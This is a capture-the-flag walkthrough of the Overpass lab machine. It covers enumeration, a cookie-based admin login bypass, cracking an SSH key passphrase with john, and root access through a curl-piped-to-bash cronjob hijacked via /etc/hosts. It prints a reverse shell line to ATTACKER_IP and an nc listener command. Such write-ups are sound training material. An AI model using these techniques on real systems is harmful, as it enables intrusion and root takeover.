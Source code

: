 ```yaml
---
title: "Overpass"
tags:
  - Easy
  - Linux
  - nmap
  - john
---
```


| Difficulty |
| ---------- |
|    Easy    |

---

First, I ran an `nmap` scan to enumerate the services that are running on the target machine. The command used is:

```
sudo nmap -sC -sV -vv -oN nmap_initial 10.10.138.135
```

 **Results:**

![screenshot1](../assets/images/overpass/screenshot1.png)

From the results, we can see that there are two open ports on the machine: **SSH** and **HTTP**.

Navigating to the HTTP webserver, I can see the following page:

![screenshot2](../assets/images/overpass/screenshot2.png)

Before carrying out a happy-path enumeration, I shall use `gobuster` to see if I can enumerate any hidden directories. The command used is as such:

```
gobuster dir -u http://10.10.138.135/ -x php,js,txt -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

Note that I made sure to check for common extensions such as .php in my directory enumeration.

With Gobuster up and running, I can then begin to explore the page.

The first thing I did was to check the source code of the home page. Doing so, I noticed an interesting comment that was left behind by one of the web developers:

![screenshot3](../assets/images/overpass/screenshot3.png)

This seems to imply that their 'military grade cryptography' is actually one that was used by Romans. Furthermore, it doesn't seem to be very secure by the looks of it.

Could it be the **Caesar Cipher**? I will keep this in mind for now!

Next, on the **Downloads** page, there are some files that we can download. Interestingly, they actually provide the **source code** for their password manager! I made sure to download it, as well as the **Build Script** and the **Precompiled Linux Binary**.

![screenshot4](../assets/images/overpass/screenshot4.png)

Before looking at those files, let me check on the results of Gobuster:

![screenshot5](../assets/images/overpass/screenshot5.png)

Nice, Gobuster managed to find an **admin login page**:

![screenshot6](../assets/images/overpass/screenshot6.png)

I tried some basic SQL injections but they did not work. However, I realized that the login functionality was actually exposed in the **login.js** file that was enumerated. 

![screenshot7](../assets/images/overpass/screenshot7.png)

Looking more closely at the `login()` function, it seems that the credentials that are inputted at the login screen are sent in a POST request to an endpoint **'/api/login'**. The response is then received and the data inside is stored in a variable **statusOrCookie**. There is then a check to verify whether the user is authenticated or not. However, looking at the **else** statement which authenticates the user, if we simply create a **SessionToken** cookie and set any random value,  we will be redirected to the **/admin** page.

Let's test this out in the **developer tools > Storage**. In there, I created a cookie called SessionToken and assigned a value to it.

![screenshot8](../assets/images/overpass/screenshot8.png)

Upon refreshing the page, we can see that I have gained access into the administrator panel.

![screenshot9](../assets/images/overpass/screenshot9.png)

We have an RSA private key, which will probably be used to log into the ssh server that is also running on the machine. The username that uses this key could also be **james**, as he is mentioned explicitly in the message.

Let's copy this private key and try to ssh into the machine.

![screenshot10](../assets/images/overpass/screenshot10.png)

Unfortunately we need to find out the **passphrase** for the RSA key. We can try a dictionary attack using **John the Ripper**, which is a password cracking tool. First, we need to convert the RSA key into a hash that can be cracked by `john`. To do so, we use an auxiliary tool called `ssh2john`. This can be done with the following command:

```
python /usr/share/john/ssh2john.py key_rsa > key_rsa.hash 
```

Now, we can use `john` with the rockyou.txt wordlist and try to crack the passphrase:

```
john --wordlist=/usr/share/wordlists/rockyou.txt key_rsa.hash
```

**Results**

![screenshot11](../assets/images/overpass/screenshot11.png)

Nice! james's private key passphrase is **james13**. Now we can log into the ssh server.

![screenshot12](../assets/images/overpass/screenshot12.png)

Now that we're logged in, we can obtain the user flag from the **home** directory of **james**.

---

Next, we have to a way to escalate our privileges. 

First, I checked out the **todo.txt** file located in the home directory of james.

![screenshot13](../assets/images/overpass/screenshot13.png)

Nice, looks like james's password is stored in the password manager that he implemented. I used the `find` command to located the overpass binary on the target machine.

```
find / -name overpass 2>/dev/null
```

The binary was found in **/usr/bin/overpass**.

I executed the binary and managed to obtain james's password by retrieving all of the saved passwords:

![screenshot14](../assets/images/overpass/screenshot14.png)

james password is **saydrawnlyingpicture**

Next, I'll try and see what **sudo privileges** james has on this machine.

![screenshot15](../assets/images/overpass/screenshot15.png)

Uh oh, looks like james does not have any sudo privileges at all. I will have to try another path of privilege escalation.

To automate the process, I'll be using [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS), which is a privilege escalation automation script. After running the script, LinPEAS managed to automate a high potential PE vector.

![screenshot16](../assets/images/overpass/screenshot16.png)

The `* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash` refers to a **cronjob**, which generally has the following format:

![screenshot17](../assets/images/overpass/screenshot17.png)

Essentially, the `*` symbols dictate the frequency of the cronjob. If the user to execute the command/binary is to be set, then their name will be placed right after the symbols. Then, the command to run during each interval will be placed after that. In the case of the example above, the `rm /home/someuser/tmp/*` command will run **every minute** (as shown by 5 * symbols)

How about the cronjob that was found by LinPEAS?

![screenshot18](../assets/images/overpass/screenshot18.png)

This cronjob curls a **buildscript.sh** file from **overpass.thm/downloads/src**  every minute and executes it as it pipes it over to bash. The important thing to note is that this command is **executed as root**. We can exploit this vulnerability by creating our own bashscript.sh which sets up a **reverse shell** that connects back to our host machine. Since our buildscript.sh is piped over to bash and executed as root, the reverse shell that we obtain will be root as well.

Let's set this up!

First, I needed to know what ip address **overpass.thm** points to. Looking at the **/etc/hosts** file on the target machine, we can actually see that overpass.thm points to localhost:

![screenshot19](../assets/images/overpass/screenshot19.png)

I changed the IP address associated with this domain to my own IP address. Now, every time a request is made to overpass.thm, the target machine will check the /etc/hosts file and direct the request to my machine instead.

Next, I created a bash script called **buildscript.sh** with the following command inside:

```
bash -i >& /dev/tcp/ATTACKER_IP/8080 0>&1
```

This is a basic reverse shell command that makes a connection back to port 8080 of my localhost.

Next, I placed this script inside a **/downloads/src** directory within my machine. I then started up a simple http server on **port 80** using python.

Finally, I also set up a netcat listener on port 8080 using the command:

```
nc -lvnp 8080
```

Hence, once a minute passes, the target machine will curl my created **buildscript.sh** and execute it as root, setting up a reverse shell which my netcat listener is currently listening out for.

![screenshot20](../assets/images/overpass/screenshot20.png)

After a minute has passed, we can see that my buildscript.sh was indeed downloaded by the target machine.

![screenshot21](../assets/images/overpass/screenshot21.png)

And with that, I have gained access to the target machine as **root**.

We can then obtain the root flag found in **/root**.

